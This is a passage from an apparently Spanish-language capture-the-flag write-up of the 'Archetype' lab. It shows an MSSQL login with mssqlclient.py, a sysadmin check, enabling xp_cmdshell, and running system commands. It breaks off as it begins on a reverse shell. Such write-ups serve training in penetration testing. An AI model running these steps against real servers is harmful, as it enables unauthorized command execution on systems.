     > python3 mssqlcient.py ARCHETYPE/sql_svc@{target ip} -windows-auth

> -windows-auth = Indica que queremos logearnos con las credenciales de Windows.

Ingresamos contraseña obtenida anteriormente y ya estaríamos conectados habilitándosenos así una terminal de SQL.

![MMSCLIENT](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20mmsqlclient.py%201%20inicio%20sesion.png)

Con el comando help LISTAMOS LAS OPCIONES de la shell de SQL

Estas opciones nos describen las funcionalidades más básicas que nos ofrece, si queremos profundizar y entender más acerca de funcionamiento:

> https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

> https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

Lo primero que tenemos que hacer ahora es comprobar si tenemos permisos de administrador:

    > SELECT IS_SRVROLEMEMBER('sysadmin')

![SQL permisos](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20sql%20permisos%20tenemos%201%20null.png)

Dicha entrada nos devuelve un valor de 1 que significa TRUE o lo qué es lo mismo, que si tenemos permisos de administrador en SQL server

Con permisos de administrador ahora podemos utilizar algunas herramientas de configuración del servidor SQL, en este caso "xp_cmdshell" para habilitar una conexión remota.

Debemos verificar que xp_cmdshell este activado con el siguiente comando:

    > SQL> EXEC xp_cmdshell 'net user';

Lo activaremos siguiendo una serie de pasos:

    > EXEC sp_configure 'show advanced options', 1;

    > RECONFIGURE;

    > sp_configure; 

    > EXEC sp_configure 'xp_cmdshell', 1;

    > RECONFIGURE;

Ahora ya podemos ejecutar comandos en el sistema. Para comprobarlo:

    > SQL> xp_cmdshell "whoami"

![SQL whoami](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20xp_cmdshell%20prueba%20whoami.png)


## OBTENER REVERSE SHELL:

Una vez sabemos que podemos ejecutar comando en el sistema, vamos intentar obtener una reverse shell estable para entablar una conexión con nuestra maquina por el puerto que le indiquemos a la escucha.

Lo primero sera descargarnos una reverse shell, sustituir la IP por la de nuestro equipo, especificarle el puerto que vamos a poner a la escucha y darle permisos de ejecucion.
